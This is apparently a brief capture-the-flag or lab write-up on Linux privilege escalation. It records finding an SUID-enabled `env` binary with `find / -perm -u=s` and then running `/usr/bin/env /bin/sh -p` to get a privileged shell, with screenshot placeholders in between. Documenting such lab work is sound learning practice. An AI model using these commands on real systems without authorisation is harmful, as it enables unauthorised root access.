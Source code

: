 - Basic manual enumeration found SUID bit on `env`:
- `find / -perm -u=s -type f 2>/dev/null`
- ![[Pasted image 20250502162215.png]]
- ![[Pasted image 20250502162203.png]]

# Exploitation
---
- `/usr/bin/env /bin/sh -p`
	- ![[Pasted image 20250502162257.png]]